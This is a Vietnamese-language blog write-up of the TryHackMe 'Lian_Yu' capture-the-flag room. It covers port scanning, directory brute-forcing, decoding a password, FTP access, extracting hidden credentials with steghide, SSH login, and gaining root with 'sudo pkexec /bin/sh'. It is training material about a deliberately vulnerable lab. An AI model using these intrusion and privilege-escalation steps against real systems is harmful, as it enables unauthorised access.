 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - Lian_Yu"
date: "2022-03-18"
tags: [
    "tryhackme",
    "web",
    "linux",
    "steghide",
    "ssh",
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

![intro](/assets/img/2022-03-18-THM-Lian-Yu/1.png)

Xin chào, lại là tôi đây. Hôm nay tôi sẽ giải CTF [TryHackMe | Lian_Yu](https://tryhackme.com/room/lianyu)
## Reconnaissance

Vẫn như thông thường, việc đầu tiên cần làm quét các cổng đang mở trên máy chủ mục tiêu.

```python
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 5650bd11efd4ac5632c3ee733ede87f4 (DSA)
|   2048 396f3a9cb62dad0cd86dbe77130725d6 (RSA)
|   256 a66996d76d6127967ebb9f83601b5212 (ECDSA)
|_  256 3f437675a85aa6cd33b066420491fea0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          43991/tcp   status
|   100024  1          50671/udp6  status
|   100024  1          53634/udp   status
|_  100024  1          58301/tcp6  status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Tôi thử qua ftp với user Anonymous nhưng không có kết quả, vậy nên tôi sẽ bắt đầu với web - port 80

![web](/assets/img/2022-03-18-THM-Lian-Yu/2.png)

Sử dụng *dirsearch* thì tôi tìm thấy path ẩn là */island/*

![island](/assets/img/2022-03-18-THM-Lian-Yu/3.png)

Vào phần source web thì tôi tìm được Code Word là `vigilante`, tôi cũng chưa biết code này để làm gì nhưng cứ lưu nó lại đã

Tiếp dùng *dirsearch* thêm 1 lần nữa tôi có 1 path khác là */2100* 

Truy cập vào path này và tôi tìm được 1 thứ khác trong phần source web

```python
<!DOCTYPE html>
<html>
<body>

<h1 align=center>How Oliver Queen finds his way to Lian_Yu?</h1>

<p align=center >
<iframe width="640" height="480" src="[https://www.youtube.com/embed/X8ZiFuW41yY](view-source:https://www.youtube.com/embed/X8ZiFuW41yY)">
</iframe> <p>
<!-- you can avail your .ticket here but how?   -->

</header>
</body>
</html>
```

Vậy là file ẩn có đuôi `.ticket`. Tôi sẽ sử dụng *dirsearch* thêm 1 lần nữa và thêm extension là `.ticket`

```python
┌──(neo㉿kali)-[~]
└─$ dirsearch -u 10.10.171.203/island/2100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -e ticket
```

Tôi tìm được `green_arrow`

![green_arrow](/assets/img/2022-03-18-THM-Lian-Yu/4.png)

Với Hint sử dụng CyberChef, tôi tìm decode được mã trên với base58.

Login nó với ftp và sử dụng user *vigilante*

```python
┌──(neo㉿kali)-[~]
└─$ ftp 10.10.171.203
Connected to 10.10.171.203.
220 (vsFTPd 3.0.2)
Name (10.10.171.203:neo): vigilante
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||38540|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
226 Directory send OK.
ftp> 
```

Lấy cả 3 ảnh này về để phân tích. Trong này có 2 ảnh Quenn và aa là có thể xem được còn ảnh Leave_me_alone thì không. Tôi sẽ up nó lên *hexed.it để phân tích 

![leave](/assets/img/2022-03-18-THM-Lian-Yu/5.png)

8 byte ký hiệu đầu tiên của file png này không đúng (hoặc đã bị thay đổi). Tôi sẽ sửa lại nó và export ra ảnh mới

![pass](/assets/img/2022-03-18-THM-Lian-Yu/6.png)

Ảnh này và aa đều có điểm chung là về những tay súng, nên tôi nghĩ chúng có thể liên quan đến nhau chăng?

Tôi sẽ thử dùng steghide phân tích ảnh aa với passphrase là `password`

```python
┌──(neo㉿kali)-[~]
└─$ steghide extract -sf aa.jpg
Enter passphrase: 
wrote extracted data to "ss.zip".
```

Được luôn! Giải nến tệp này

```python
┌──(neo㉿kali)-[~]
└─$ unzip ss.zip 
Archive:  ss.zip
  inflating: passwd.txt              
  inflating: shado                   
                                           
┌──(neo㉿kali)-[~]
└─$ cat passwd.txt             
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.
                                            
┌──(neo㉿kali)-[~]
└─$ cat shado     
M3tahuman
```

Bây giờ tôi đã có 1 password nhưng chưa có username, nhìn lại chiếc ảnh về người đàn ông này, tôi thử tìm kiếm trên gg bằng bức ảnh này và người trong ảnh tên là Slade Wilson a.k.a Deathstroke

Thử login ssh với tên Slade 

```python
┌──(neo㉿kali)-[~]
└─$ ssh slade@10.10.59.181
The authenticity of host '10.10.59.181 (10.10.59.181)' can't be established.
ED25519 key fingerprint is SHA256:DOqn9NupTPWQ92bfgsqdadDEGbQVHMyMiBUDa0bKsOM.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:77: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.59.181' (ED25519) to the list of known hosts.
slade@10.10.59.181's password: 
                            Way To SSH...
                        Loading.........Done.. 
                   Connecting To Lian_Yu  Happy Hacking

██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗██████╗ 
██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗   █████╔╝
██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  ██╔═══╝ 
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝


        ██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
        ██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
        ██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
        ██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
        ███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
        ╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

slade@LianYu:~$ id
uid=1000(slade) gid=1000(slade) groups=1000(slade),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),115(bluetooth)
slade@LianYu:~$ ls
user.txt
```

## Privilege escalation

`sudo -l`

```python
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
slade@LianYu:~$ 
```

[pkexec | GTFOBins](https://gtfobins.github.io/gtfobins/pkexec/)

```python
slade@LianYu:~$ sudo pkexec /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# ls /root
root.txt
# 
```